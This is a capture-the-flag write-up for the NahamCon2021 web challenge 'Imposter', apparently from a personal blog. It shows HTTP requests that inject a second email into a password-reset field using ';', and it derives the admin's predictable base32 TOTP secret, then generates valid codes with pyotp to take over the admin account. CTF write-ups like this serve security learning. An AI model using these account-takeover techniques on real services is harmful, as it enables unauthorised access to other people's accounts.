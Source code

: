 ```yaml
---
title: "NahamCon2021 CTF - Imposter"
date: 2021-03-15T10:16:35+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

web - medium

## solution

This was a tricker, but fun one. The challenge URL drops us on a login page with an OTP field.

{{< figure src="/images/nahamcon/imposter.png" >}}

Signing up for an account responsed with a JSON structure containing a `url` key with an `otpauth` URI.

Request

```text
POST /signup HTTP/1.1
Host: challenge.nahamcon.com:30809
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenge.nahamcon.com:30809/signup
Content-Type: application/json
Origin: http://challenge.nahamcon.com:30809
Content-Length: 80
Connection: close
Cookie: auth2=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E; auth=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E

{"username":"test","email":"test@test.com","password":"test","password2":"test"}
```

Response

```text
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 95

{"url":"otpauth://totp/2Password:test?secret=ORSXG5BRGIZTINJWG44DS%3D%3D%3D&issuer=2Password"}
```

The browser displayed a QR code that you could scan using any OTP application. Once logged in, the site had some secrets management features. I messed around with it for quite a while with no real pwnage.

The forgot password reset first had you enter a username before redirecting to a page with locked fields containing an accounts email address. I found the `admin` user this way.

{{< figure src="/images/nahamcon/imposter-admin.png" >}}

Intercepting the request when hitting the Confirm button, we could change the email address to something else. However, when you did that we got an error.

```html
<div class="alert alert-danger mt-3">
    The provided email does not contail the user&#39;s email
</div>
```

So the original email had to be in the field. Eventually I found that if I put my temp email (created using <https://mail.tm/en/>) and then the real one, separated with a `;`, I got the reset email.

```text
POST /reset_password HTTP/1.1
Host: challenge.nahamcon.com:30809
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenge.nahamcon.com:30809/reset_password?username=admin
Content-Type: application/json
Origin: http://challenge.nahamcon.com:30809
Content-Length: 80
Connection: close

{"username":"admin","email":"tempemail@mail.tm; admin@congon4tor.me"}
```

Response:

```text
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 17

{"success":true}
```

Clicking the link let you reset the password for the account. To login though, you needed to provide an OTP and we obviously don’t have one. A closer look at the signing up process and that `otpauth` URI, I learnt that the secret was a [base32 encoded value](https://github.com/google/google-authenticator/wiki/Key-Uri-Format). Decoding the secret in the one we had for our signup process, we find:

- Original URI: `otpauth://totp/2Password:test?secret=ORSXG5BRGIZTINJWG44DS%3D%3D%3D&issuer=2Password`
- Secret: `ORSXG5BRGIZTINJWG44DS%3D%3D%3D`
- Decoded: `test123456789`
- [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base32('A-Z2-7%3D',true)&input=T1JTWEc1QlJHSVpUSU5KV0c0NERTJTNEJTNEJTNE)

If the secret for our OTP contained our username, maybe admins is `admin123456789` (or `MFSG22LOGEZDGNBVGY3TQOI=` base32 encoded). To test this, I used [pyotp](https://pypi.org/project/pyotp/)'s `TOTP()` method to generate OTP's. 

```python
import pyotp

totp = pyotp.TOTP('MFSG22LOGEZDGNBVGY3TQOI=')
print(totp.now()) # => '492039'
```

Using the password I set for the admin account and the OTP's I was generating, I could login as `admin`!

Last step was to reveal the flag with another OTP.

{{< figure src="/images/nahamcon/imposter-solve.png" >}}
